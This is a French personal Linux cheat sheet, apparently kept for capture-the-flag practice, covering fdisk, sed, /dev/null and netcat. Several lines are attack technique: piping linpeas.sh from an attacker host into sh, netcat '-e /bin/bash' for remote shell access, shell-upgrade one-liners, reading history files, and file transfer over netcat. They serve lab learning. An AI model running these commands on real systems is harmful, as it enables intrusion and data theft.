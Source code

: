 N'oublie pas la commande man  

python -m http.server 8000 : Lancer un serveur python local

Pour récupérer le fichier : `curl [vpnhostIP]/linpeas.sh| sh` pour l'executer directement

wget : récupérer des fichiers via internet.

Formater cle usb :  
df : lister toute les partitions.  
sudo umount /dev/sd.....  
sudo mkfs.nfts /dev/sd.....

Quand ya un souci de capacité sur une clé usb :

**Étape 1. Supprimer toutes les partitions**

- Ouvrez un terminal et tapez **sudo su** .
- Tapez **fdisk -l** et notez la lettre de votre clé USB.
- Tapez **fdisk /dev/sdx** (en remplaçant x par votre lettre de lecteur).
- Tapez **d** pour procéder à la suppression d'une partition.
- Tapez **1** pour sélectionner la 1ère partition et appuyez sur Entrée.
- Tapez **d** pour procéder à la suppression d'une autre partition (fdisk devrait automatiquement sélectionner la deuxième partition).

**Étape 2. Créer une nouvelle partition**

- Tapez **n** pour créer une nouvelle partition.
- Tapez **p** pour rendre cette partition primaire et appuyez sur Entrée.
- Tapez **1** pour en faire la première partition, puis appuyez sur Entrée.
- Appuyez sur Entrée pour accepter le premier cylindre par défaut.
- Appuyez à nouveau sur Entrée pour accepter le dernier cylindre par défaut.
- Tapez **w** pour écrire les nouvelles informations de partition sur le disque USB.
- Tapez **mkfs.vfat -F 32 /dev/sdx1** (en remplaçant x par la lettre de votre clé USB).

adduser : créer un user

Pour démarrer le vpn de thm, faire, dans download, sudo openvpn name.ovpn &. Le & c'est pour le lancer en arrière plan. Puis faire entrer

Pour associer une adresse ip à un mot pour plus de rapidité, sudo nano /etc/host puis tu fais comme pour les autres, tu suis cette syntaxe :

[111.111.111.111](http://111.111.111.111 "http://111.111.111.111")            target

/dev/null : "trou noir" du terminal. en gros c'est pour supprimer des trucs.

Tu peux supp le résultat d'une commande (ne pas l'afficher): commande > /dev/null.

Tu peux aussi ne pas mettre d'entrée. par ex si j'ai un script qui affiche mon input, je fais ./[programme.sh](http://programme.sh "http://programme.sh") < /dev/null

Ou encore supprimer les erreurs : commande 2> /dev/null  
rappel :

En langage Unix, il existe trois flux standard :

- 0 : L'entrée standard (stdin) où les commandes lisent les données.
- 1 : La sortie standard (stdout) où les commandes affichent les résultats.
- 2 : Le flux d'erreur standard (stderr) où les commandes affichent les messages d'erreur.

cat ~/.*history | less : voir l'historique des commandes tapées

python -c 'import pty;pty.spawn("/bin/bash")' : Trois commandes (pas liées) à faire si tu est dans un shell réduit.

echo os.system('/bin/bash')  
/bin/sh -i

whoami : affiche l'utilisateur courant

|||
|---|---|
|Symbol / Operator|Description|
|&|Cet opérateur vous permet d'exécuter des commandes en arrière-plan de votre terminal.( à mettre après la commande)|
|&&|Cet opérateur vous permet de combiner plusieurs commandes dans une seule ligne de votre terminal.|
|>|Cet opérateur est un redirecteur - ce qui signifie que nous pouvons prendre la sortie d'une commande (comme l'utilisation de cat pour sortir un fichier) et la diriger ailleurs.|
|>>|Cet opérateur a la même fonction que l'opérateur >, mais il ajoute la sortie au lieu de la remplacer (ce qui signifie que rien n'est écrasé)..|

**Sed :** Editeur de données dans fichier (utile pour faire des trucs automatisés)

1. **Remplacement de texte :**

- Syntaxe de base : `sed 's/ancien_mot/nouveau_mot/' fichier`
- Exemple : `sed 's/apple/orange/' fichier.txt` remplace la première occurrence de "apple" par "orange" dans le fichier `fichier.txt`.

1. **Remplacement de toutes les occurrences :**

- Ajouter le modificateur `g` pour remplacer toutes les occurrences : `sed 's/ancien_mot/nouveau_mot/g' fichier`

1. **Utilisation de délimiteurs différents :**

- Vous pouvez utiliser des délimiteurs autres que `/` pour éviter d'avoir à échapper les caractères spéciaux. Par exemple : `sed 's|ancien_mot|nouveau_mot|' fichier`

1. **Suppression de lignes :**

- Pour supprimer une ligne qui contient un certain motif, utilisez : `sed '/motif/d' fichier`

1. **Impression de lignes spécifiques :**

- Utilisez `sed -n` pour supprimer l'impression par défaut, puis ajoutez une règle pour imprimer des lignes spécifiques. Par exemple : `sed -n '10,20p' fichier` imprime les lignes de 10 à 20.

1. **Ajout de texte à la fin d'une ligne :**

- `sed 's/$/ texte_a_ajouter/' fichier` ajoute "texte_a_ajouter" à la fin de chaque ligne.

1. **Utilisation de scripts avec **`**sed**`** :**

- Vous pouvez également utiliser des scripts `sed` contenus dans des fichiers externes. Par exemple : `sed -f script.sed fichier`

1. **Modification en place du fichier :**

- Ajouter l'option `-i` pour modifier le fichier en place. Par exemple : `sed -i 's/ancien_mot/nouveau_mot/' fichier`

1. **Utilisation de expressions régulières :**

- `sed` supporte les expressions régulières étendues (ERE). Par exemple : `sed -E 's/[0-9]+/NUM/g' fichier` remplace tous les nombres par "NUM

**Netcat :** établir connexion dans shell entre machine.

```
-c shell commands       as `-e'; use /bin/sh to exec [dangerous!!]
        -e filename             program to exec after connect [dangerous!!]
        -b                      allow broadcasts
        -g gateway              source-routing hop point[s], up to 8
        -G num                  source-routing pointer: 4, 8, 12, ...
        -h                      this cruft
        -i secs                 delay interval for lines sent, ports scanned
        -k                      set keepalive option on socket
        -l                      listen mode, for inbound connects
        -n                      numeric-only IP addresses, no DNS
        -o file                 hex dump of traffic
        -p port                 local port number
        -r                      randomize local and remote ports
        -q secs                 quit after EOF on stdin and delay of secs
        -s addr                 local source address
        -T tos                  set Type Of Service
        -t                      answer TELNET negotiation
        -u                      UDP mode
        -v                      verbose [use twice to be more verbose]
        -w secs                 timeout for connects and final net reads
        -C                      Send CRLF as line-ending
        -z                      zero-I/O mode [used for scanning]
```

Attendre une connexion :

- nc -lvp portnumber

Se connecter :

- nc address portnumber

Executer un fichier quand on se connecte :

- nc address portnumber -e filename (on peut mettre /bin/bash pour que le listener puisse executer un shell sur ta session)

Charger un fichier text vers un fichier text distant :

- Dans la sessions listener : nc -lvp portnumber > filetarget.txt
- Dans la session connector : nc address portnumber < contentfile.txt
- Le contenu du contentfile.txt ira dans filetarget.txt

**Opérations mathématiques dans un shell**
- `printf "%x\n" $((0x7fffffffda70 - 0x24))`
- `printf "%d\n" 0x1f  `
- `printf "%020x" 123` Converti la valeur 123 en hex sur 20 bit
- `printf "%d\n" 0xFF

Programmer une tâche ponctuelle
`at now + 20 minutes
`> firefox` lance firefox dans 20 minutes


**Inodes** ^9a4a17
